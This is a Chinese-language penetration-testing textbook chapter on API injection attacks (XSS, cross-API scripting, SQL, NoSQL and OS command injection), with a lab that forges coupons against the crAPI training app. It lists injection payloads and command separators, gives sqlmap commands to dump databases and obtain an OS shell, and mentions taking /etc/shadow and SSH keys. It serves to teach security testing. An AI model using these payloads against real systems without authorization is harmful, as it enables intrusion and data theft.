






# 12

注入


本章将引导你检测和利用几种常见的注入漏洞。易受注入攻击的 API 请求允许你发送输入，这些输入会被 API 支持的技术（例如运行在服务器上的 Web 应用、数据库或操作系统）直接执行，从而绕过输入验证措施。

你通常会发现按其目标技术命名的注入攻击。例如，SQL 注入利用 SQL 数据库，而 NoSQL 注入则利用 NoSQL 数据库。跨站脚本攻击（XSS）会将脚本插入到在用户浏览器上运行的网页中。跨 API 脚本攻击（XAS）类似于 XSS，但它利用的是第三方应用程序，这些应用程序被你攻击的 API 吸收。命令注入是针对 Web 服务器操作系统的攻击，允许你向其发送操作系统命令。

本章中演示的技术也可以应用于其他注入攻击。作为你可能遇到的最严重的漏洞之一，API 注入可能导致目标最敏感数据的完全泄露，甚至可能让你获得对支持基础设施的访问权限。

## 发现注入漏洞

在使用 API 注入有效载荷之前，你必须先发现 API 接受用户输入的地方。发现这些注入点的一种方法是通过模糊测试，然后分析你收到的响应。你应该尝试对所有潜在的输入进行注入攻击，特别是在以下几种情况下：

+   API 密钥

+   令牌

+   头信息

+   URL 中的查询字符串

+   POST/PUT 请求中的参数

你进行模糊测试的方法将取决于你对目标了解多少。如果你不担心制造噪音，你可以发送各种可能会在许多支持技术中引发问题的模糊测试输入。但你对 API 了解得越多，你的攻击就会越有效。如果你知道应用程序使用的数据库是什么，Web 服务器上运行的操作系统是什么，或者应用程序是用什么编程语言编写的，你就能提交有针对性的有效载荷，旨在检测这些特定技术中的漏洞。

发送模糊测试请求后，寻找包含详细错误信息或其他未能正确处理请求的响应。特别是，注意任何表明你的有效载荷绕过了安全控制并被解释为命令的迹象，无论是在操作系统、编程语言还是数据库层面。这种响应可能是像“SQL 语法错误”这样的明显信息，也可能是处理请求时稍微多花了一点时间。你甚至可能运气好，收到一整个详细的错误转储，其中可能包含有关主机的大量细节。

当你遇到漏洞时，一定要测试每个类似的端点，看看是否也有相同的漏洞。如果你在*/file/upload*端点发现了一个漏洞，那些具有上传功能的端点，例如*/image/upload*和*/account/upload*，很可能也有同样的问题。

最后，值得注意的是，这些注入攻击中的许多已经存在了几十年。API 注入的独特之处在于，它为这种攻击提供了一种更新的传播方式。由于注入漏洞是众所周知的，且通常会对应用安全产生不利影响，因此它们通常会得到良好的防护。

## 跨站脚本（XSS）

XSS 是一种经典的 Web 应用漏洞，已经存在了几十年。如果你已经熟悉这种攻击，你可能会想，XSS 是否对 API 安全构成威胁？当然是，特别是当通过 API 提交的数据与浏览器中的 Web 应用交互时。

在 XSS 攻击中，攻击者通过提交用户输入，将恶意脚本插入网站，这些输入被用户浏览器解释为 JavaScript 或 HTML。通常，XSS 攻击会在网页中注入一个弹出消息，指示用户点击一个链接，该链接会将他们重定向到攻击者的恶意内容。

在 Web 应用中，执行 XSS 攻击通常包括将 XSS 负载注入到网站上的不同输入字段中。在测试 API 的 XSS 时，你的目标是找到一个允许你提交与前端 Web 应用交互的请求的端点。如果应用程序没有清理请求的输入，XSS 负载可能会在下次用户访问应用页面时执行。

尽管如此，为了让这次攻击成功，必须具备一些条件。由于 XSS 已经存在了相当长的时间，API 防御者会迅速消除轻易利用这一弱点的机会。此外，XSS 利用了 Web 浏览器加载客户端脚本的特性，所以如果 API 不与 Web 浏览器交互，利用此漏洞的可能性几乎为零。

这里有几个 XSS 负载的示例：

1.  `<script>alert("xss")</script>`

1.  `<script>alert(1);</script>`

1.  `<%00script>alert(1)</%00script>`

1.  `SCRIPT>alert("XSS");///SCRIPT>`

这些脚本中的每一个都试图在浏览器中发出警报。负载之间的变体尝试绕过用户输入验证。通常，Web 应用会尝试通过过滤掉不同的字符或防止字符一开始就被发送来防止 XSS 攻击。有时，做一些简单的事情，比如添加一个空字节（`%00`）或将不同的字母大写，就能绕过 Web 应用的保护。在第十三章中，我们会更深入地讨论如何绕过安全控制。

对于特定于 API 的 XSS 负载，我强烈推荐以下资源：

1.  **Payload Box XSS 载荷列表** 该列表包含超过 2,700 个 XSS 脚本，可能触发成功的 XSS 攻击（[`github.com/payloadbox/xss-payload-list`](https://github.com/payloadbox/xss-payload-list)）。

1.  **Wfuzz 词典** 随我们的主要工具之一附带的较短词典。适用于快速检查 XSS（[`github.com/xmendez/wfuzz/tree/master/wordlist`](https://github.com/xmendez/wfuzz/tree/master/wordlist)）。

1.  **NetSec.expert XSS 载荷** 包含不同 XSS 载荷及其使用案例的解释。对于更好地理解每个载荷并进行更精确的攻击非常有用（[`netsec.expert/posts/xss-in-2020`](https://netsec.expert/posts/xss-in-2020)）。

如果 API 实施了某种形式的安全措施，那么您的大部分 XSS 尝试应该会产生类似的结果，例如 405 错误输入或 400 错误请求。然而，请密切关注异常情况。如果您发现某些请求返回了某种形式的成功响应，请尝试刷新相关的网页，看看 XSS 尝试是否对其产生了影响。

在查看 Web 应用程序是否存在潜在的 API XSS 注入点时，请寻找包含客户端输入并用于在 Web 应用中显示信息的请求。用于以下任何操作的请求都是潜在的目标：

+   更新用户个人资料信息

+   更新社交媒体“点赞”信息

+   更新电子商务商店产品

+   发布到论坛或评论区

在 Web 应用程序中搜索请求，然后使用 XSS 载荷进行模糊测试。查看结果中是否有异常或成功的状态代码。

## 跨 API 脚本（XAS）

XAS 是通过 API 执行的跨站脚本攻击。例如，假设 hAPI Hacking 博客有一个由 LinkedIn 新闻源提供支持的侧边栏。该博客与 LinkedIn 之间有 API 连接，当 LinkedIn 新闻源添加新帖子时，新的内容也会显示在博客的侧边栏中。如果从 LinkedIn 接收到的数据没有经过清理，那么有可能将添加到 LinkedIn 新闻源中的 XAS 载荷注入到博客中。要进行测试，您可以发布一个包含 XAS 脚本的 LinkedIn 新闻源更新，并检查它是否成功在博客中执行。

XAS 确实比 XSS 更复杂，因为 Web 应用必须满足某些条件才能使 XAS 成功。Web 应用必须未能正确清理通过其自身 API 或第三方 API 提交的数据。API 输入还必须以某种方式注入到 Web 应用中，才能启动脚本。此外，如果您通过第三方 API 尝试攻击目标，可能会限制您可以通过该平台发出的请求数量。

除了这些常见的挑战，您还会遇到 XSS 攻击固有的相同挑战：输入验证。API 提供者可能会尝试阻止某些字符通过 API 提交。由于 XAS 只是 XSS 的另一种形式，您可以借用前面部分描述的 XSS 载荷。

除了对第三方 API 进行 XAS 测试外，您可能还需要在提供商的 API 添加内容或对其 web 应用程序进行更改时，查找该漏洞。例如，假设 hAPI Hacking 博客允许用户通过浏览器或向 API 端点 */api/profile/update* 发送 POST 请求来更新其用户资料。hAPI Hacking 博客的安全团队可能将所有精力都集中在保护博客免受 web 应用程序提供的输入攻击，完全忽略了 API 作为攻击渠道的可能性。在这种情况下，您可能会尝试发送一个典型的用户资料更新请求，其中包含您在 POST 请求中的有效负载：

```
POST /api/profile/update HTTP/1.1
Host: hapihackingblog.com
Authorization: hAPI.hacker.token
Content-Type: application/json

{
"fname": "hAPI",
"lname": "Hacker",
"city": **"<script>alert("xas")</script>"**
}
```

如果请求成功，尝试在浏览器中加载网页，看脚本是否执行。如果 API 实施了输入验证，服务器可能会发出 HTTP 400 错误请求响应，阻止您发送脚本作为有效负载。在这种情况下，您可以尝试使用 Burp Suite 或 Wfuzz 发送一大批 XAS/XSS 脚本，尝试找到不会导致 400 响应的脚本。

另一个有用的 XAS 提示是尝试更改 `Content-Type` 头部，诱使 API 接受 HTML 有效负载来启动脚本：

```
Content-Type: text/html
```

XAS 需要特定的条件才能被利用。也就是说，API 防御者往往在防止已有二十多年历史的攻击（如 XSS 和 SQL 注入）方面做得比防止像 XAS 这样的新型复杂攻击更好。

## SQL 注入

SQL 注入是最著名的 web 应用漏洞之一，它允许远程攻击者与应用程序的后端 SQL 数据库进行交互。通过这种访问，攻击者可能会获取或删除敏感数据，如信用卡号、用户名、密码以及其他重要信息。此外，攻击者还可以利用 SQL 数据库功能绕过身份验证，甚至获得系统访问权限。

这个漏洞已经存在了几十年，并且在 APIs 出现之前似乎有所减少，因为 APIs 提供了一种新的注入攻击方式。然而，API 防御者一直非常关注检测和防止通过 API 进行的 SQL 注入攻击。因此，这些攻击不太可能成功。事实上，发送包含 SQL 有效负载的请求可能会引起目标安全团队的注意，甚至导致您的授权令牌被禁用。

幸运的是，您通常可以通过一些不太显眼的方式检测 SQL 数据库的存在。在发送请求时，尝试请求一些意想不到的内容。例如，查看图 12-1 中展示的 Pixi 端点的 Swagger 文档。



图 12-1：Pixi API Swagger 文档

正如您所见，Pixi 期望消费者在请求的主体中提供某些值。`"id"` 值应该是一个数字，`"name"` 期望一个字符串，`"is_admin"` 期望一个布尔值，比如 true 或 false。尝试在预期数字的地方提供字符串，在预期字符串的地方提供数字，并在预期布尔值的地方提供数字或字符串。如果 API 预期一个小数字，请发送一个大数字，如果它预期一个小字符串，请发送一个大字符串。通过请求意外情况，你很可能会发现开发人员没有预测到的情况，数据库可能会在响应中返回错误。这些错误通常是冗长的，会泄露有关数据库的敏感信息。

在寻找用于数据库注入的目标请求时，要寻找那些允许客户端输入并且预计会与数据库交互的请求。在 图 12-1 中，收集的用户信息很可能会存储在数据库中，并且 PUT 请求允许我们对其进行更新。由于可能存在数据库交互，因此该请求是目标进行数据库注入攻击的一个很好的候选项。除了进行明显的请求外，还应该对所有地方进行模糊测试，因为你可能会在不太明显的请求中找到数据库注入弱点的迹象。

本节将介绍两种简单的方法来测试应用程序是否容易受到 SQL 注入攻击：手动将元字符提交为 API 的输入，以及使用一个名为 SQLmap 的自动化解决方案。

### 手动提交元字符

*元字符* 是 SQL 中被视为函数而不是数据的字符。例如，`--` 是一个元字符，告诉 SQL 解释器忽略接下来的输入，因为它是一个注释。如果 API 端点没有过滤 API 请求中的 SQL 语法，那么通过 API 传递到数据库的任何 SQL 查询都将被执行。

这里有一些可以引起问题的 SQL 元字符：

`'`

`''`

`;%00`

`--`

`-- -`

`""`

`;`

`' OR '1`

`' OR 1 -- -`

`" OR "" = "`

`" OR 1 = 1 -- -`

`' OR '' = '`

`OR 1=1`

所有这些符号和查询都旨在引起 SQL 查询的问题。像 `;%00` 这样的空字节可能会导致一个冗长的与 SQL 相关的错误作为响应发送。`OR 1=1` 是一个条件语句，字面上意味着“或者以下语句为真”，这将导致给定 SQL 查询的条件为真。单引号和双引号在 SQL 中用于指示字符串的开始和结束，因此引号可能会导致错误或独特的状态。想象一下，后端程序编程时，处理 API 身份验证过程的 SQL 查询可能会像下面这样，这是一个检查用户名和密码的 SQL 身份验证查询：

```
SELECT * FROM userdb WHERE username = 'hAPI_hacker' AND password = 'Password1!'
```

查询从用户输入中检索值 `hAPI_hacker` 和 `Password1!`。如果我们向 API 提供的不是密码，而是值 `' OR 1=1-- -`，那么 SQL 查询可能会变成这样：

```
SELECT * FROM userdb WHERE username = 'hAPI_hacker' OR 1=1-- -
```

这将被解释为选择一个为真语句的用户，并跳过密码要求，因为密码部分已被注释掉。查询不再检查密码，用户被授予访问权限。该攻击可以对用户名和密码字段同时执行。在 SQL 查询中，破折号（`--`）代表单行注释的开始。这将使后续查询行中的所有内容变成注释，不会被处理。单引号和双引号可以用来逃避当前查询，导致错误，或追加你自己的 SQL 查询。

前面的列表已经以多种形式存在多年，API 防御者也意识到它的存在。因此，确保你尝试各种方式请求意外的结果。

### SQLmap

我最喜欢的一种自动测试 API 是否存在 SQL 注入的方法是，将一个可能存在漏洞的请求保存在 Burp Suite 中，然后使用 SQLmap 对其进行攻击。你可以通过对请求中的所有潜在输入进行模糊测试，然后检查响应中的异常来发现潜在的 SQL 弱点。在 SQL 漏洞的情况下，这种异常通常是类似于“SQL 数据库无法处理你的请求……”的详细 SQL 响应。

保存请求后，启动 SQLmap，这是 Kali 的标准包之一，可以通过命令行运行。你的 SQLmap 命令可能如下所示：

```
$ **sqlmap -r /home/hapihacker/burprequest1 -p** `password`
```

`-r` 选项让你指定已保存请求的路径。`-p` 选项让你指定希望测试 SQL 注入的具体参数。如果没有指定要攻击的参数，SQLmap 会依次攻击每一个参数。这对于对一个简单请求进行彻底攻击非常有效，但对于一个包含多个参数的请求，可能会相当耗时。SQLmap 会一次测试一个参数，并告诉你哪个参数不太可能存在漏洞。要跳过某个参数，可以使用 ctrl-C 键组合打开 SQLmap 的扫描选项，并使用 `n` 命令跳到下一个参数。

当 SQLmap 表明某个参数可能存在注入漏洞时，尝试利用它。有两个主要的后续步骤，你可以选择先进行哪一个：导出所有数据库条目或尝试获取系统访问权限。要导出所有数据库条目，可以使用以下命令：

```
$ **sqlmap -r /home/hapihacker/burprequest1 -p vuln-param –dump-all**
```

如果你不想导出整个数据库，你可以使用 `--dump` 命令来指定你希望获取的具体表格和列：

```
$ **sqlmap -r /home/hapihacker/burprequest1 -p vuln-param –dump -T users -C password -D helpdesk**
```

这个示例尝试从 `helpdesk` 数据库中的 `users` 表导出 `password` 列。当命令成功执行时，SQLmap 会在命令行上显示数据库信息，并将信息导出到 CSV 文件。

有时 SQL 注入漏洞会允许你向服务器上传一个 Web Shell，然后执行该 Shell 以获取系统访问权限。你可以使用 SQLmap 的命令之一来自动尝试上传 Web Shell 并执行它，从而为你提供系统访问权限：

```
$ **sqlmap -r /home/hapihacker/burprequest1 -p vuln-param –os-shell**
```

此命令将尝试利用漏洞参数中的 SQL 命令访问，上传并启动一个 shell。如果成功，这将使你能够访问操作系统的交互式 shell。

或者，你可以使用`os-pwn`选项尝试通过 Meterpreter 或 VNC 获得 shell：

```
$ **sqlmap -r /home/hapihacker/burprequest1 -p vuln-param –os-pwn**
```

成功的 API SQL 注入可能少之又少，但如果你确实找到漏洞，影响可能会导致数据库和受影响服务器的严重泄露。关于 SQLmap 的更多信息，请查看其文档：[`github.com/sqlmapproject/sqlmap#readme`](https://github.com/sqlmapproject/sqlmap#readme)。

## NoSQL 注入

API 常常使用 NoSQL 数据库，因为它们与 API 中常见的架构设计兼容，如第一章所述。你可能会发现 NoSQL 数据库比 SQL 数据库更为普遍。而且，NoSQL 注入技术不像结构化的 SQL 注入那样广为人知。正因为这一小点，你更可能发现 NoSQL 注入。

在你进行渗透测试时，请记住，NoSQL 数据库不像不同的 SQL 数据库那样具有许多共同点。*NoSQL*是一个总括性术语，意味着数据库不使用 SQL。因此，这些数据库具有独特的结构、查询模式、漏洞和利用方式。实际上，你会进行许多类似的攻击并针对相似的请求，但实际的有效负载会有所不同。

以下是你可以在 API 调用中发送的常见 NoSQL 元字符，用于操作数据库：

1.  `$gt`

1.  `{"$gt":""}`

1.  `{"$gt":-1}`

1.  `$ne`

1.  `{"$ne":""}`

1.  `{"$ne":-1}`

1.  `$nin`

1.  `{"$nin":1}`

1.  `{"$nin":[1]}`

1.  `|| '1'=='1`

1.  `//`

1.  `||'a'\\'a`

1.  `'||'1'=='1';//`

1.  `'/{}:`

1.  `'"\;{}`

1.  `'"\/$[].>`

1.  `{"$where": "sleep(1000)"}`

关于这些 NoSQL 元字符的说明：正如我们在第一章中提到的，`$gt`是 MongoDB NoSQL 查询操作符，用于选择大于给定值的文档。`$ne`查询操作符选择值不等于给定值的文档。`$nin`操作符是“not in”操作符，用于选择字段值不在指定数组中的文档。列表中的许多其他符号旨在导致详细的错误信息或其他有趣的行为，比如绕过认证或等待 10 秒。

任何异常的情况都应该促使你彻底测试数据库。当你发送 API 身份验证请求时，错误密码的一个可能响应如下所示，来自 Pixi API 集合：

```
HTTP/1.1 202 Accepted
X-Powered-By: Express
Content-Type: application/json; charset=utf-8

{"message":"sorry pal, invalid login"}
```

请注意，失败的响应包括状态码 202 Accepted，并带有失败的登录信息。使用特定符号模糊测试*/api/login*端点会导致详细的错误消息。例如，将有效负载`'"\;{}`作为密码参数发送，可能会导致以下 400 Bad Request 消息。

```
HTTP/1.1 400 Bad Request
X-Powered-By: Express
`--snip--`

SyntaxError: Unexpected token ; in JSON at position 54<br> &nbsp; &nbsp;at JSON.parse (&lt;anonymous&gt;)<br> [...]
```

不幸的是，错误信息并未指示所使用的数据库类型。然而，这个独特的响应确实表明，该请求在处理某些类型的用户输入时存在问题，这可能表明它可能容易受到注入攻击。这正是应该引起你注意并集中测试的响应。既然我们已经有了 NoSQL 负载列表，我们可以将攻击位置设置为密码，并使用我们的 NoSQL 字符串：

```
POST /login HTTP/1.1
Host: 192.168.195.132:8000
`--snip--`

user=hapi%40hacker.com&pass=**§Password1%21§**
```

由于我们已经在 Pixi 集合中保存了这个请求，让我们尝试使用 Postman 进行注入攻击。发送带有 NoSQL 模糊负载的各种请求会得到 202 Accepted 响应，正如在图 12-2 中看到的其他错误密码尝试。

正如你所看到的，嵌套的 NoSQL 命令负载 `{"$gt":""}` 和 `{"$ne":""}` 导致了成功的注入和认证绕过。



图 12-2：使用 Postman 成功进行 NoSQL 注入攻击

## 操作系统命令注入

操作系统命令注入类似于本章中我们讨论的其他注入攻击，但不同之处在于，你注入的不是数据库查询，而是命令分隔符和操作系统命令。在进行操作系统注入时，了解目标服务器上运行的操作系统非常有帮助。确保在侦察期间充分利用你的 Nmap 扫描，以尝试获取这些信息。

与所有其他注入攻击一样，你的第一步是找到潜在的注入点。操作系统命令注入通常需要能够利用应用程序访问的系统命令，或完全逃逸出应用程序。一些关键的攻击目标包括 URL 查询字符串、请求参数和头部，以及在模糊测试中抛出过独特或冗长错误（特别是那些包含操作系统信息的错误）的请求。

以下字符都充当 *命令分隔符*，它们允许程序在一行中将多个命令配对。如果 Web 应用程序存在漏洞，它将允许攻击者将命令分隔符添加到现有命令中，并在其后跟随其他操作系统命令：

1.  `|`

1.  `||`

1.  `&`

1.  `&&`

1.  `'`

1.  `"`

1.  `;`

1.  `'"`

如果你不知道目标的底层操作系统，可以通过使用两个负载位置来发挥你的 API 模糊技能：一个用于命令分隔符，另一个用于操作系统命令。表 12-1 是一些潜在的操作系统命令。

表 12-1：注入攻击中常用的操作系统命令

| **操作系统** | **命令** | **描述** |
| --- | --- | --- |
| Windows | `ipconfig` | 显示网络配置 |
|  | `dir` | 打印目录内容 |
|  | `ver` | 打印操作系统和版本 |
|  | `echo``%CD%` | 打印当前工作目录 |
|  | `whoami` | 打印当前用户 |
| *nix（Linux 和 Unix） | `ifconfig` | 显示网络配置 |
|  | `ls` | 打印目录的内容 |
|  | `uname``-a` | 打印操作系统和版本 |
|  | `pwd` | 打印当前工作目录 |
|  | `whoami` | 打印当前用户 |

要使用 Wfuzz 执行此攻击，你可以手动提供命令列表，或将其作为字典文件提供。在下面的示例中，我将所有的命令分隔符保存在文件*commandsep.txt*中，操作系统命令保存在*os-cmds.txt*中：

```
$ **wfuzz -z file,wordlists/commandsep.txt -z file,wordlists/os-cmds.txt http://vulnerableAPI.com/api/users/query?=WFUZZWFUZ2Z**
```

要在 Burp Suite 中执行同样的攻击，你可以利用 Intruder 集群炸弹攻击。

我们将请求设置为登录的 POST 请求，并针对`user`参数。已为每个文件设置了两个有效载荷位置。查看结果，检查异常情况，比如返回 200 系列响应和突出显示的响应长度。

你决定如何使用操作系统命令注入完全取决于你。你可以获取 SSH 密钥、Linux 上的*/etc/shadow*密码文件等等。或者，你也可以进行权限提升或命令注入，获得一个完整的远程 Shell。无论如何，这就是你的 API 黑客技巧转变为普通黑客技巧的时刻，而且这个话题还有很多其他书籍可以参考。欲了解更多信息，请查看以下资源：

+   *阅读手册：* *红队作战手册*（2013）作者：本·克拉克

+   *渗透测试：黑客实战入门*（No Starch Press，2014）作者：乔治亚·威德曼

+   *伦理黑客：实战入门*（No Starch Press，2021）作者：丹尼尔·格雷厄姆

+   *高级渗透测试：破解世界上最安全的网络*（Wiley，2017）作者：威尔·奥尔索普

+   *动手黑客*（Wiley，2020）作者：詹妮弗·阿库里和马修·希基

+   *黑客剧本 3：渗透测试实用指南*（Secure Planet，2018）作者：彼得·金

+   *Shellcoder 手册：发现和利用安全漏洞*（Wiley，2007）作者：克里斯·安利、费利克斯·林德纳、约翰·赫斯曼和赫拉尔多·里查特

## 总结

在本章中，我们使用模糊测试来检测几种类型的 API 注入漏洞。然后，我们回顾了这些漏洞可能被利用的各种方式。在下一章，你将学习如何规避常见的 API 安全控制。

## 实验#9：使用 NoSQL 注入伪造优惠券

是时候利用我们的新注入技巧来攻击 crAPI 了。但从哪里开始呢？好吧，我们还没有测试的一个功能是接受客户端输入的优惠券代码功能。别翻白眼——优惠券欺诈可是赚钱的！搜索 Robin Ramirez、Amiko Fountain 和 Marilyn Johnson，你就能知道他们是如何赚到 2500 万美元的。crAPI 可能正是下一个遭遇大规模优惠券诈骗的受害者。

使用经过身份验证的用户访问 Web 应用程序，我们可以在“商店”标签页中使用**添加优惠券**按钮。请输入一些测试数据到优惠券代码字段中，然后用 Burp Suite 拦截相应的请求（见图 12-3）。



图 12-3：crAPI 优惠券代码验证功能

在 Web 应用程序中，使用错误的优惠券代码进行优惠券代码验证会返回“无效的优惠券代码”响应。被拦截的请求应如下所示：

```
POST /community/api/v2/coupon/validate-coupon HTTP/1.1
Host: 192.168.195.130:8888
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
`--snip--`
Content-Type: application/json
Authorization: Bearer Hapi.hacker.token
Connection: close

{"coupon_code":"TEST!"}
```

请注意 POST 请求体中的 `"coupon_code"` 值。若我们希望伪造优惠券，这似乎是一个很好的测试字段。让我们将请求发送到 Intruder，并在 `TEST!` 周围添加负载位置，以便对该优惠券值进行模糊测试。一旦设置了负载位置，我们就可以添加我们的注入模糊负载。尝试包括本章中涵盖的所有 SQL 和 NoSQL 负载。接下来，开始 Intruder 模糊测试攻击。

这次初步扫描的结果都显示相同的状态码（500）和响应长度（385），如图 12-4 所示。



图 12-4：Intruder 模糊测试结果

这里看起来没有异常。不过，我们应该调查请求和响应的具体情况。请参见列表 12-1 和 12-2。

```
POST /community/api/v2/coupon/validate-coupon HTTP/1.1
`--snip--`

{"coupon_code":"%7b$where%22%3a%22sleep(1000)%22%7d"}
```

列表 12-1：优惠券验证请求

```
HTTP/1.1 500 Internal Server Error
`--snip--`

{}
```

列表 12-2：优惠券验证响应

在查看结果时，您可能会注意到一些有趣的情况。选择其中一个结果并查看请求选项卡。请注意，我们发送的负载已被编码。这可能会干扰我们的注入攻击，因为编码后的数据可能无法被应用程序正确解释。在其他情况下，负载可能需要被编码，以帮助绕过安全控制，但现在我们需要找出这个问题的源头。在 Burp Suite Intruder 负载选项卡的底部，有一个选项可以 URL 编码某些字符。请取消选中该框，如图 12-5 所示，以便发送原始字符，然后重新发送一次攻击。



图 12-5：Burp Suite Intruder 的负载编码选项

现在请求应像列表 12-3 中所示，响应应像列表 12-4 中所示：

```
POST /community/api/v2/coupon/validate-coupon HTTP/1.1
`--snip--`

{"coupon_code":"{"$nin":[1]}"}"
```

列表 12-3：禁用 URL 编码的请求

```
HTTP/1.1 422 Unprocessable Entity
`--snip--`

{"error":"invalid character '$' after object key:value pair"}
```

列表 12-4：相应的响应

这一轮攻击确实产生了一些稍微更有趣的响应。请注意 422 Unprocessable Entity 状态码，以及详细的错误信息。这个状态码通常意味着请求的语法存在问题。

仔细查看我们的请求，你可能会注意到一个潜在问题：我们将载荷位置放置在了 Web 应用程序请求中生成的原始键/值引号内。我们应该尝试调整载荷位置，包含引号，以避免干扰嵌套对象的注入尝试。现在，Intruder 的载荷位置应如下所示：

```
{"coupon_code":§"TEST!"§}
```

再次发起更新后的 Intruder 攻击。这次我们收到了更有趣的结果，包括两个 200 状态码（见图 12-6）。



图 12-6：Burp Suite Intruder 结果

如你所见，两个注入载荷 `{"$gt":""}` 和 `{"$nin":[1]}` 导致了成功的响应。通过调查响应中的 `$nin`（不在）NoSQL 操作符，我们看到 API 请求返回了有效的优惠券代码。恭喜你成功执行了 API NoSQL 注入攻击！

有时注入漏洞是存在的，但你需要排查攻击尝试，以找到注入点。因此，确保分析你的请求和响应，并遵循详细错误信息中留下的线索。
